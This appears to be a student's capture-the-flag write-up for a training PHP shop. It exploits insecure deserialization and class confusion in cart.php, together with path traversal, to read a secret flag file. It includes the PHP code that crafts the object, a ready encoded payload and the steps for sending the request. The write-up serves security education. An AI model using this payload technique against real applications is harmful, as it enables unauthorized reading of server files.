 first of all:
- javascript is totally on client side (but we didn't exploit it)
- look for a function that print as a string the content of a file (for instance,
file_get_contents($path) in the class Product.inc.php)
- then, you check the flow that leads to this function
file_get_contents() -> getPicture() -> toDict() -> this function is called in some php pages(ctrl+f+shift)
- other thing to notice is unserialize() which is called insiede restore() insiede the object state,
which is called in three pages to be precise: add_to_cart.php, cart.php and purchase.php
- so the idea is to craft a fake state in a way to call toDict (that will call file_get_contents)
- so we can check the previous pages and we will notice that cart.php calls restore and later
also the function toDict (but from the state and not the product!)
- basically state and product classes have the different functions but one with the same name!!
-so we just need to send a fake State class, but in reality it must be a product!
- i used an online editor for php in order to craft the class. The following code is the one used for
crafting. 
- Finally, I used postman to send the php post request at the follwoing link: http://lolshop.training.jinblack.it/api/cart.php
(notice that i check on the javascript where this function is called )
- on postman changes body -> form-data -> add field "state" and add the encoded craft
```php
<?php
class Product {

    private $id;
    private $name;
    private $description;
    private $picture;
    private $price;
    
    function __construct($id, $name, $description, $price) {
        $this->id = $id;
        $this->name = $name;
        $this->description = $description;
        $this->picture = "../../../secret/flag.txt";
        $this->price = $price;
    }
    

    function save() {
        return base64_encode(gzcompress(serialize($this)));
    }

    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }

}
```


$prod1 = new Product(1,"name","description",1);
//echo serialize($prod1);
//echo  base64_encode(gzcompress(serialize($prod1)));

// i retrieved this flag from postman
$flag = "YWN0Znt3ZWxjb21lX3RvX3RoZV9uZXdfd2ViXzA4MzZlZWY3OTE2NmI1ZGM4Yn0K";
echo base64_decode($flag);
//print_r($prod1);

?>

## Challange
Read the flag in `/secret/flag.txt`. 
## Solution
In the source code we can see that the only function that can read a file is `getPicture()` in `Product.inc.php`. If we can alter the attribute `picture` we could inject the path `../../../secret/flag.txt` and read the content of the file through `file_get_contents`.

In `cart.php` if the isset `state` the code execute the function `toDict()` and return the result. In the normal behaviour `toDict()` is called from a `State` object but we can pass a serialized object of class `Product` which having the same method will return the content of the flag.
```php
if(isset($_REQUEST['token'])) {

    $state = $db->retrieveState($_REQUEST['token']);
    if(!$state) {
        http_response_code(400);
    } else {
        echo $state;
    }

} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}

?>
```
Supposing we can pass an altered `$_REQUEST['state']` the method `State::restore` does:
```php
static function restore($token) {
    return unserialize(gzuncompress(base64_decode($token)));
}
```
By crafting and executing this php code we can obtain a string which will return an object of class `Product` after being unserialized by `restore` method.
```php
<?php

class Product {

    private $id;
    private $name;
    private $description;
    private $picture = "../../../secret/flag.txt";
    private $price;
}

$r = new Product();
echo base64_encode(gzcompress(serialize($r)));

?>
```
By using Postman, send a POST request to `http://lolshop.training.jinblack.it/api/cart.php` with body of type form-data and parameter `state` `eJzztzK3Ugooyk8pTS5RsjK1qi62MjS0UmKACjFkpihZ+1kDBY2RBPMSc1MhwkYGSMIpqcXJRZkFJZn5eVBNZkiyBZnJJaVFQH1AXSZWSnp6+hBUnJpclFqin5aTmK5XUlECkjc0QdZXlJkMtq0WAJiQNKc=`.
This way after being restore, the method toDict() will be executed in the class Product and will return a JSON with this format:
```JSON
{
    "id": null,
    "name": null,
    "description": null,
    "picture": "YWN0Znt3ZWxjb21lX3RvX3RoZV9uZXdfd2ViXzA4MzZlZWY3OTE2NmI1ZGM4Yn0K",
    "price": null
}
```
`picture` is the base64 version of the content of the flag, by doing the decode64 we obtain the flag.

